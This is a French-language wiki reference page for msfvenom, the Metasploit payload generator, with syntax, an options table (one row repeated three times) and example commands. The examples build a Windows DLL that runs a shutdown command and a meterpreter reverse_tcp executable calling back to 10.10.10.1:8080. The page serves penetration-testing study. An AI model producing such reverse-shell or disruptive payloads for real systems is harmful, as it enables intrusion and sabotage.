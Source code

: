 ```yaml
---
title: msfvenom
description: Permet de générer des charges utiles (payloads) de toutes sortes
published: true
date: 2024-07-15T20:08:55.994Z
tags: outil, linux
editor: markdown
dateCreated: 2024-07-15T20:08:55.994Z
---
```


# Introduction

msfvenom est un outil de la suite Metasploit, cet outil permet de générer des charges utiles (payloads) de toutes sortes.

> La suite Metasploit est disponible au téléchargement ici: https://github.com/rapid7/metasploit-framework
> {.is-info}

# Syntaxe

`msfvenom -p [type de payload] [variable=valeur] -f [format] -o [fichier de sortie] [options]`

# Options

| Option                            | Description                                                                                                         |
| --------------------------------- | ------------------------------------------------------------------------------------------------------------------- |
| `-l [type]`                       | Liste tous les modules disponibles pour le type indiqué (paylods,encoders,nops,platforms,archs,encrypt,formats,all) |
| `-p [type de paylaod]`            | Spécifie le payload à utiliser                                                                                      |
| `--list-options`                  | Affiche les options disponibles avec le payload sélectionné                                                         |
| `-f [format]`                     | Spécifie le format à utiliser                                                                                       |
| `-e [encodeur]`                   | Spécifie l'encodeur à utiliser                                                                                      |
| `--service-name [nom]`            | Spécifie le nom du service lorsqu'un binaire de service est généré                                                  |
| `--smallest [nom]`                | Génere le payload le plus petit possible avec tous les encodeurs disponibles                                        |
| `--encrypt [type de chiffrement]` | Spécifie le type de chiffrement utilisé                                                                             |
| `--encrypt-key [clé]`             | Clé à utiliser avec le chiffrement                                                                                  |
| `-a [architecture]`               | Spécifie l'architecture souhaitée pour la génération du payload et l'encodage                                       |
| `-o [sortie]`                     | Sauvegarde le payload vers un fichier                                                                               |
| `--smallest [nom]`                | Génere le payload le plus petit possible avec tous les encodeurs disponibles                                        |
| `--smallest [nom]`                | Génere le payload le plus petit possible avec tous les encodeurs disponibles                                        |

# Exemples

Liste les payloads disponibles

`msfvenom -l payloads`

Utilise le payload windows/x64/exec avec comme argument cmd='shutdown /s', génere un fichier dll et l'exporte vers shutdown.dll

`msfvenom -p windows/x64/exec cmd='shutdown /s' -f dll -o shutdown.dll`

Utilise le payload windows/meterpreter/reverse_tcp avec comme argument LHOST=10.10.10.1 et LPORT=8080, génere un fichier exe et l'exporte vers reverse.exe

`msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.10.1 LPORT=8080 -f exe -o reverse.exe`
